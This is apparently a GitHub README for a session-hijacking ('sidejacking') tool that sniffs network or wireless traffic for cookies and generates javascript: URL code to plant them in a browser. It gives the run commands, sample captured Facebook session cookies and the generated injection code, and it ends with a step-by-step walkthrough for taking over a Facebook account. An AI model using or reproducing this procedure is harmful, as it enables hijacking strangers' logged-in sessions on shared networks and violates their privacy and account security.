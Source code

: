 # A Simple sidejacking tool, using javascript cookie injection.

This software sniffs any interface for cookies, and generates javascript code that can be injected into any browser, by pasting it into the URL bar.

It comes accompanied by a script: `OSx10.6_monitorMode.py`, that is able to use the `airport sniff` feature present in OS X 10.6+, allowing the wireless device to be put in monitor mode. We are, thus, able to retrieve any cookie sent on the chosen wireless channel.

# Usage

To run the cookieJsInjection open a shell (e.g., bash) and execute the following command (cookieJsInjection requires scapy to run - http://www.secdev.org/projects/scapy/):

`./cookieJsInjection.py IFACE`

Where `IFACE` represents the network interface you wish to sniff on (e.g. eth0, wlan0, etc). 

If you supply the flag `-facebook`, it will only output facebook cookies, keeping track of the profiles captured in the session, and eliminating duplicate entries:

`./cookieJsInjection.py IFACE -facebook`

If you wish to run `cookieJsInjection` on a wireless device, and you are currently running OS X 10.6+, use `OSx10.6_monitorMode.py`:

    hybrid:py-cookieJsInjection diogomonica$ sudo python OSx10.6_monitorMode.py 9 -facebook
    [*] Starting scan on channel 9
    Capturing 802.11 frames on en1.
    # Found cookie for facebook user XXXXXXXX:
    c_user = 798929644
    presence = DJ294237494BchADhA_2256.channel_22BsubA_5b1_5dBF294237772227WMblcMshfPBbloMbvtMctP294232437BsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA69V294236729Z292BlcPBuoAD1454092337ADolA-1BflA_5b_5dBexpP294237495196QB1259338588ADolA-1BflA_5b_5dBexpZ295237551044QQBalAD1606900057ADiA0QQQQ
    xs = 24e156ef2ddf6d6911422b0a9825825f
    datr = 4VToPPIw60lKSa3qrFSFrlm1
    lu = ZBj64Z92UpiasQNnWbkzW32w
    sct = 1273830123
    x-referer = http%3A%2F%2Fwww.facebook.com%2F%3Fref%3Dlogo%23%2Fdiogo.monica%2Fposts%2F488456769644%3Fnotif_t%3Dfeed_comment
    [*] Javascript Injection code:
    javascript:void(document.cookie="c_user=798929644");void(document.cookie="wd=1280x840");void(document.cookie="e=n");void(document.cookie="presence=DJ294237494BchADhA_2256.channel_22BsubA_5b1_5dBF29432172227WMblcMsndPBbloMbvtMctP2943212437BsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA69V294236729Z292BlcPBuoAD1454092337ADolA-1BflA_5b_5dBexpP29443432196QB1259338588ADolA-1BflA_5b_5dBexpP2942321553944QQBalAD1605400057ADiA0QQQQ");void(document.cookie="xs=54e156e028df6d6916232b0a9825825e");void(document.cookie="datr=1VTuTPOwDSg6xl3qrQFDrlm4");void(document.cookie="lu=TAj64Z02UpiSdFQNnWbkz2w");void(document.cookie="sct=1294230653");void(document.cookie="x-referer=http%3A%2F%2Fwww.facebook.com%2F%3Fref%3Dlogo%23%2Fdiogo.monica%2Fposts%2F488432169644%3Fnotif_t%3Dfeed_comment");

Remember to select the appropriate channel (in the example above, channel 9 was used).

# Example of Facebook sidejacking


1 - Run cookieJsInjection and wait for cookies to appear

    glow:py-cookieJsInjection hiperion$ sudo python cookieJsInjection.py en1 -facebook
    javascript:void(document.cookie="c_user=798929644");void(document.cookie="wd=1280x616");void(document.cookie="presence=DJ293759043BchADhA_2256.channel_22BsubA_5b1_2c1L798929644A5BF293757419186WMblcMsndPBbloMbvtMctMsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA42V293758371Z416BlcA0AQ");void(document.cookie="cur_max_lag=20");void(document.cookie="act=1293757438495%2F1");void(document.cookie="L=20");void(document.cookie="datr=0fMcTTMFZZVhFiOJZvvO1pyO");void(document.cookie="locale=en_US");void(document.cookie="lu=TA3UCsI0Y6ezY6wydClUpeDw");void(document.cookie="sct=1293787415");void(document.cookie="W=1293757115");void(document.cookie="sid=3");void(document.cookie="xs=1e4d54055dbe34976a93d3a1fe574a19");void(document.cookie="x-referer=http%3A%2F%2Fwww.facebook.com%2F%23%2F");void(document.cookie="made_write_conn=1293751415");

2 - Copy the javascript code (begining with `javascript:`).

3 - Open the browser in facebook.com (make sure you are logged out of any accounts).

4 - Paste the javascript code into the URL bar (press enter)

5 - Go to facebook.com
                                       
#Background

More information on sidejacking - http://en.wikipedia.org/wiki/Session_hijacking